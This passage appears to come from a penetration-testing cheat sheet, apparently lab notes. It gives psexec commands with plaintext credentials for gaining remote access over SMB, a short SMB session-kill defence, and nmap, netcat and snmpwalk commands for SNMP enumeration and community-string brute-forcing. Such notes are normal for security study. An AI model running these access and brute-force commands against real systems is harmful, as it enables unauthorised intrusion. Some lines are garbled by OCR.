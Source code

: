 ```text
	mount –a, df –H to check if you did any mistakes.
```

#### psexec - Exploit SMB
- gain access - `python psexec.py sqlServer:shantewhite@10.11.1.123 `
- gain access - `python psexec.py daisy:XorPasswordIsDead17@10.11.1.122`

#### Defend / Protect SMB
```text
You can list active SMB sessions
    C:> net session

And kill them
    C:> net session [LinuxIPaddr] /del
```













## 161 » SNMP
### Enumeration
#### nmap
- `nmap --script snmp-info,snmp-brute,snmp-interfaces,snmp-processes,snmp-win32-users,snmp-win32-software,snmp-win32-shares,snmp-win32services <victim_ip> -p161` 
#### netcat 
- `nc $IP 161`

#### telnet 
- `telnet $IP 161`

#### snmp enumeration commands
```text
NOTE: Fix SNMP output values so they are human readable
 
	apt-get install snmp-mibs-downloader download-mibs

	echo "" > /etc/snmp/snmp.conf
```
- `snmpcheck -t $ip -c public`
- `snmpwalk -c public -v1 $ip 1|`
- `snmpwalk -c public -v1 10.0.0.0`
- `grep hrSWRunName|cut -d\* \* -f`
- `snmpenum -t $ip`
- `onesixtyone -c names -i hosts`
- `snmpenum -t 192.168.1.X`

